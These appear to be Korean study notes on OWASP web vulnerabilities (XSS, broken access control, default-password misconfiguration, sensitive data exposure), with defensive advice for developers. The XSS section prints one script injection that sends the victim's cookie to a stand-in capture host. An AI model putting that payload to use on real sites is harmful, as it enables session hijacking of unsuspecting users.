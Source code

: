 ### 사이트 간 스크립팅
사이트 간 스크립팅(XSS)은 서비스가 입력된 값을 가공하지 않고 사용자의 입력을 그대로 HTML 내용으로 사용할 때 일어난다.
<br><span>
삽입 공격과 관련이 있는데, 구조화된 데이터를 일반 문자열로 표현한다는 점을 악용하여 종료 구분 기호에 이어 원치 않는 명령을 제공한다. 형식을 벗어난 HTML 을 만들고, 사이에 script 를 추가하는 것으로 원치 않는 작동을 실행시킬 수 있다.
<br><span>
예를 들면 이런 HTML 이 생성될 수 있다.
```html
<input type='text' value=''> <script>document.location='http://www.example.com/capture?id='+ document.cookie</script>'' />
```
사용자의 쿠키를 공격자에게 전달해서, 공격자가 사용자의 세션을 가로챌 수 있게 된다. 개발자는 입력값을 절대 신뢰해서는 안된다. 서버로 들어오는 모든 데이터는 정제되어야 한다.
> 자바 개발자는 OWASP 의 [자바 인코더 프로젝트](https://owasp.org/www-project-java-encoder/)를 사용해야 한다.

> 그리고 XSS 예방 지침을 읽어야 한다.

### 취약한 접근 제어

취약한 접근 제어는 공격자가 금지된 데이터에 접근하도록 허용하는 어플리케이션의 문제이다. 여기엔 다른 사용자의 데이터나 비밀번호 파일 같은 시스템 수준의 데이터도 포함된다.
<br><span>
접근 제어에 생기는 구멍의 흔한 형태로 **직접 객체 접근 문제**가 있다. 데이터베이스 ID 는 순차적으로 할당되기 때문에 공격자는 다른 데이터를 유추할 수 있을 것이다.
<br><span>
해결 방법은 2가지다.

#### 공격자에게 흥미를 끌만한 값이 보이지 않도록 해라
- URL 에 데이터베이스 ID 를 사용하지 말자
- 세션 값으로 결정되는 일반화된 URL 을 사용하자
- 세션별로 무작위 ID 를 실제 ID 로 매핑하는 것이다.

#### 허가된 접근만을 허용해라
직접 객체 접근 문제가 발생하는 근본적인 이유는 'URL 소유'와 '자원에 접근할 수 있음'을 혼동하기 때문이다.
<br><span>
자원이 접근이 승인된 측에만 전송해야 하는 경우라면 서비스가 모든 요청에 대해 권한이 있는지 확인해야 한다.

### 보안 구성 오류
admin/admin 으로 로그인하는 경우는 정말 흔하다. 기본 비밀번호를 사용하는 것은 심각한 문제다. 공격자는 제품의 기본 관리자 로그인을 사용해 침입한다.
<br><span>
관리자 콘솔은 공통적인 문제의 출처다. 관리자 콘솔을 색출하고 좋은 보안 정책을 적용해야 한다. 특히 어플리케이션이 포함된 이미지를 빌드한다면 컨테이너를 주의 깊게 살피자.
<br><span>
레디스, 몽고 DB, Postgresql 등과 같은 서버에는 자체 인증 메커니즘과 기본 관리자 비밀번호가 있다.
<br><span>
또 다른 일반적인 보안 구성 오류는 서버가 너무 광범위한 포트를 열고 수신 대기하는 것이다. 내부 트래픽을 공개된 외부 트래픽과 나누어 전용 NIC 로 분리하면 정보 보안을 개선할 수 있다.

### 민감 데이터 노출

신용카드, 의료 기록, 구매 데이터, 이메일 등이 OWASP 가 말하는 **민감 데이터**다.
- 필요 없는 민감 데이터는 저장하지 말라
- HSTS 를 사용해라. HTTPS 우선 정책보다 한 단계 더 높은 단계로, 클라이언트가 안전하지 않은 프로토콜로 협상하는 것을 막는다.
- SHA-1 을 사용하지 말라
- 비밀번호를 평문 그대로 저장하지 말라. 해시 알고리즘과 솔트 값을 사용하자
- 민감 데이터를 암호화해서 데이터베이스에 저장하라.
- 서버의 권한이 아닌 사용자의 권한에 따라 데이터를 복호화해라
